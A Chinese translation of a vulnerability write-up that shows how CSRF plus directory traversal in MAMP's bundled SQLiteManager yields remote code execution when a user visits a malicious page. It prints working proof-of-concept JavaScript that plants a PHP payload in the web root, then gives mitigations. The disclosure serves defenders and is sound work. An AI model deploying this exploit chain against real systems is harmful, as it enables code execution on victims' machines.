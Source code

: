 > 原文链接: https://www.anquanke.com//post/id/86344 


# 【技术分享】针对MAMP集成环境套件中的SQLiteManager漏洞的分析


                                阅读量   
                                **93202**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：itsec.nl
                                <br>原文地址：[https://www.itsec.nl/en/2017/06/26/drive-by-remote-code-execution-by-mamp/](https://www.itsec.nl/en/2017/06/26/drive-by-remote-code-execution-by-mamp/)

译文仅供参考，具体内容表达以及含义原文为准

 [![](https://p2.ssl.qhimg.com/t0100608e4c1322d4e9.png)](https://p2.ssl.qhimg.com/t0100608e4c1322d4e9.png)

译者：[興趣使然的小胃](http://bobao.360.cn/member/contribute?uid=2819002922)

预估稿费：120RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿



** 一、前言**



MAMP是一组集成环境套件，四个字母代表的是运行在Mac OS X上的Apache、MySQL以及PHP。MAMP套件中包含了SQLiteManager，这个SQLiteManager存在多个漏洞。当MAMP的用户访问一个恶意网站时，攻击者可以利用这几个漏洞来执行代码，本文对这种情况进行了分析。

<br>



**二、背景知识**



2.1 MAMP

MAMP是一个Web集成环境套件，可以安装在Mac OS X上。Web开发者通常会使用MAMP来测试他们正在研发的Web应用。MAMP会在系统上安装Apache服务，默认运行在8888端口上，同样也会包括某些数据库管理程序，比如phpMyAdmin以及SQLiteManager。

2.2 SQLiteManager

[SQLiteManager](https://sourceforge.net/projects/sqlitemanager/)是个SQLite数据库管理工具，角色上与phpMyAdmin类似。SQLiteManager可以创建新的数据库，向数据库中添加表以及发起SQL查询。自2013年起，SQLiteManager就没有再更新，已经包含了某些[已知漏洞](https://packetstormsecurity.com/files/134272/SQLiteManager-1.2.4-Cross-Site-Scripting.html)。

<br>

**三、漏洞分析**



3.1 目录遍历漏洞

SQLiteManager可以用来创建新的数据库。一个SQLite数据库包含在单个文件中，我们在创建数据库时可以指定新数据库所对应的文件名。新的数据库文件会在/Applications/MAMP/db/sqlite目录中生成。然而，我们可以在文件名后添加“../”字符串，跳转到上一层目录，将数据库存放在上一层目录中。

我们同样可以利用这个技巧，将包含PHP代码的文件存放到Web根目录下。我们可以使用诸如“../../htdocs/script.php”之类的文件名，将script.php这个文件存放到Web根目录下。然后，我们可以使用SQLiteManager，创建一个数据表，添加包含我们PHP代码的一行数据。sciprt.php是一个包含PHP代码的有效的SQLite数据库文件，当这个文件被访问时就会运行PHP代码。

[![](https://p0.ssl.qhimg.com/t011ca114792ffe9b97.png)](https://p0.ssl.qhimg.com/t011ca114792ffe9b97.png)

[![](https://p3.ssl.qhimg.com/t01d3231598b50d5a02.png)](https://p3.ssl.qhimg.com/t01d3231598b50d5a02.png)

[![](https://p5.ssl.qhimg.com/t01ffab5d6c57179612.png)](https://p5.ssl.qhimg.com/t01ffab5d6c57179612.png)

3.2 CSRF漏洞

攻击者无法直接访问运行在本地主机（localhost）上的SQLiteManager。然而，如果攻击者可以在浏览器中运行Javascript，那么他就可以“伪造”请求来实施攻击。如果用户通过安装MAMP的那台主机访问攻击者搭建的Web站点，那么攻击者可以在这台主机上利用浏览器发起请求。这些请求能够访问运行在本地主机上的SQLiteManager。这种通过受害者浏览器反弹请求的方法称之为跨站请求伪造方法（cross site request forgery），即CSRF。

SQLiteManager没有使用任何CSRF防护机制，因此3.1中提到的目录遍历漏洞也可以使用CSRF方法来触发。攻击者可以使用Javascript发起POST请求，创建数据库、往数据库中填充数据，然后再发起请求访问结果文件。这样一来，当受害者访问某个恶意网站时，攻击者就可以使用这种方法在安装了MAMP的受害者主机上运行代码。

比如，我们可以使用如下Javascript代码，发起请求，创建一个数据库：



```
let formData = new FormData();
formData.append(“dbname”, “somename”);
formData.append(“dbVersion”, 3);
formData.append(“dbpath”, “../../htdocs/script.php”);
formData.append(“action”, “saveDb”);
 
fetch(“http://localhost:8888/sqlitemanager/main.php”, `{`
   method: “POST”,
   body: formData
`}`);
```

创建数据表之后，我们可以插入一个载荷：



```
let payload = “&lt;?php `osascript -e ‘tell application (path to frontmost application as text) to display dialog ”Remote code execution on MAMP” with icon stop’`; ?&gt;”;
let formData = new FormData();
formData.append(“funcs[test]”, “”);
formData.append(“valField[test]”, payload);
formData.append(“action”, “saveElement”);
formData.append(“currentPage”, “”);
formData.append(“after_save”, “properties”);
 
return fetch(“http://localhost:8888/sqlitemanager/main.php?dbsel=1&amp;table=test”, `{`
   method: “POST”,
   body: formData
`}`).catch(e =&gt; e);
```

dbsel的值即为我们刚刚创建的数据库的编号。虽然我们事先无法知道这个具体值，但我们可以尝试0到50之间的所有数值，希望能够命中正确的值。

当我们发起请求访问这个文件时，osascript命令就会被执行，弹出如下对话框：

[![](https://p2.ssl.qhimg.com/t01e6a15f78a8377be2.png)](https://p2.ssl.qhimg.com/t01e6a15f78a8377be2.png)

<br>

**四、总结**



如果我们将CSRF以及目录遍历这两个漏洞一起使用，当受害者访问包含恶意Javascript的网站时，我们就能获得远程代码执行权限。

立竿见影解决这个问题的方法就是禁用SQLiteManager。MAMP用户可以编辑“/Applications/MAMP/conf/apache/httpd.conf”这个配置文件，禁用SQLiteManager。除非有专人接管SQLiteManager的维护工作，否则这些漏洞很可能不会被修复。现在我们已经可以使用[phpLiteAdmin](https://www.phpliteadmin.org/)来对MAMP中的SQLite进行管理。

更为宽泛的解决方案是禁止公共互联网访问私有的RFC1918 IP地址。现在已经有相关[提议](https://wicg.github.io/cors-rfc1918/)，建议在默认情况下禁用此类请求，然后再引入新的CORS头部来显式允许这种请求通过。

如果大家有更多建议，欢迎积极跟我们[联系](https://www.itsec.nl/contact/)。


